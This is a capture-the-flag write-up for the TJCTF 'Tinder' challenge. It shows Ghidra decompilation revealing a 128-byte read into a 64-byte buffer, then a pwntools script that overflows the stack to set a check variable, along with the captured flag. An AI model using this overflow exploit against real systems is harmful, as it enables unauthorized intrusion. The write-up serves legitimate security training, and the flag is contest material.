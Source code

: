 # Tinder

> Start swiping!

Attached is a binary.

## Description

Let's dissassemble the binary with Ghidra. 

```c
int main(void)
{
  char local_a8 [32];
  char local_88 [64];
  char local_48 [16];
  char local_38 [16];
  char local_28 [16];
  FILE *local_18;
  int local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  local_14 = 0;
  setup();
  puts("Welcome to TJTinder, please register to start matching!");
  printf("Name: ");
  input(local_28,1.00000000);
  printf("Username: ");
  input(local_38,1.00000000);
  printf("Password: ");
  input(local_48,1.00000000);
  printf("Tinder Bio: ");
  input(local_88,8.00000000);
  putchar(10);
  if (local_14 == -0x3f2c2ff3) {
    printf("Registered \'%s\' to TJTinder successfully!\n",local_38);
    puts("Searching for matches...");
    sleep(3);
    puts("It\'s a match!");
    local_18 = fopen("flag.txt","r");
    if (local_18 == (FILE *)0x0) {
      puts("Flag File is Missing. Contact a moderator if running on server.");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    fgets(local_a8,0x20,local_18);
    printf("Here is your flag: %s",local_a8);
  }
  else {
    printf("Registered \'%s\' to TJTinder successfully!\n",local_38);
    puts("Searching for matches...");
    sleep(3);
    puts("Sorry, no matches found. Try Again!");
  }
  return 0;
}
```

And the input function:

```c
int input(char *str,float f)
{
  size_t sVar1;
  char *pcVar2;
  
  fgets(str,(int)ROUND(f * 16.00000000),stdin);
  sVar1 = strlen(str);
  if (1 < sVar1) {
    pcVar2 = strchr(str,10);
    if (pcVar2 == (char *)0x0) {
      do {
        str = (char *)fgetc(stdin);
      } while (str != (char *)0xa);
    }
    else {
      sVar1 = strlen(str);
      str = str + (sVar1 - 1);
      *str = '\0';
    }
    return (int)str;
  }
  puts("No input detected. Registration failed.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

In order to get the flag, the variable `local_14` needs to be set to `-0x3f2c2ff3 = 0xc0d3d00d`.

Reading the code from the `input` function, we see that if `input(buf, x)` is called, then we can enter `16x` characters in the buffer.

Therefore there is a bug and we can overflow the `local88` buffer, entering a maximum of `8 * 16 = 128` characters instead of 64. 

## Solution

Therefore, we overflow the buffer until we overwrite the `local_14` variable.

```python
from pwn import *

sh = remote("p1.tjctf.org", 8002)

print(sh.recvuntil("Name: ").decode())
sh.sendline("my name")
print(sh.recvuntil("Username: ").decode())
sh.sendline("user")
print(sh.recvuntil("Password: ").decode())
sh.sendline("pass")
print(sh.recvuntil("Bio: ").decode())

payload = b' '*(64+16+16+16) + p32(0xc0d3d00d) + p32(0xc0d3d00d) + p32(0xc0d3d00d)
sh.sendline(payload)

sh.interactive()
```

Flag: `tjctf{0v3rfl0w_0f_m4tch35}`